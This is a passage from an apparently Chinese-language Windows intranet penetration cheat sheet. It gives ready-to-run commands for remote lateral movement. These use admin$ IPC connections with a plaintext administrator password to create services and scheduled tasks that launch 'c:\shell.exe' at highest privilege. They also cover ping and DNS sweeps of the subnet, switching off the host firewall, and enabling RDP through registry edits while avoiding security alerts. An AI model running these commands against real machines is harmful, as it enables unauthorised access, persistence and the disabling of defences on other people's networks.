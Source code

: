 依然是在ipc建立后,可直接在远程机器上创建,删除服务,创建服务时需要注意,常规程序需要有返回值,不然启动服务时会报1053错误

```text
# sc \\192.168.3.122 create shellsrv binpath= "c:\shell.exe" start= auto displayname= "shellstart"
# sc \\192.168.3.122 stop shllsrv
# sc \\192.168.3.122 delete shellsrv
```

```text
# net use \\192.168.3.122\admin$ /del
# net use * /del    最后,删除所有ipc,如果系统中还有其它的ipc连接,也可指定只删除自己的
```

在远程机器上快速创建删除定时任务,需要指定目标系统的账号密码 \[ 03以下系统用at,想必大家都已非常熟练,这里不再多说 \]

```text
# net use \\192.168.3.122\admin$ "admin!@#45" /user:"klionsec\administrator"
# net time \\192.168.3.122  查看目标机器当前时间
# net use \\192.168.3.122\admin$ /del
​
# schtasks /create  /?      查看schtasks使用帮助
# chcp 437          如果当前机器是中文系统需要先修改下cmd字符集,默认cmd是gbk,不然后面用schtasks远程创建计划任务时会报错
# chcp 936          用完以后再把字符集改回来,如果是英文系统就不会有这种问题
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /create /TN "shellexec" /SC DAILY /ST 11:18 /F /RL HIGHEST /SD 2017/11/13 /ED 2017/11/16 /TR "C:\shell.exe"
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /query  | findstr "shell"
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /TN "shellexec" /delete
```

初步先大致看下当前所在内网有多少存活机器 \[ 单基于icmp的扫描 \]:

```text
# for /L %I in (1,1,254) DO @ping -n 1 192.168.3.%I | findstr "TTL=128" >> pinglog.txt
```

搜集当前内网中的dns信息:

```text
# for /L %I in (1,1,254) DO @nslookup 192.168.3.%I | find "Name:" >> dnslog.txt
```

操作当前机器防火墙\[务必先提权\]:

```text
# netsh advfirewall show private        查看当前机器防火墙状态
# netsh advfirewall set allprofiles state off   关闭当前机器防火墙
# netsh advfirewall set allprofiles state on    开启当前机器防火墙
```

操作当前机器的rdp,实战中推荐直接用powershell来搞,直接用reg可能会触发防护报警:

第一种,使用原始的reg工具,适合03以下的系统

```text
查询rdp的端口,注意把默认的十六进制转换成十进制
# reg query "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
​
启用rdp:
# reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
​
禁用rdp:
# reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
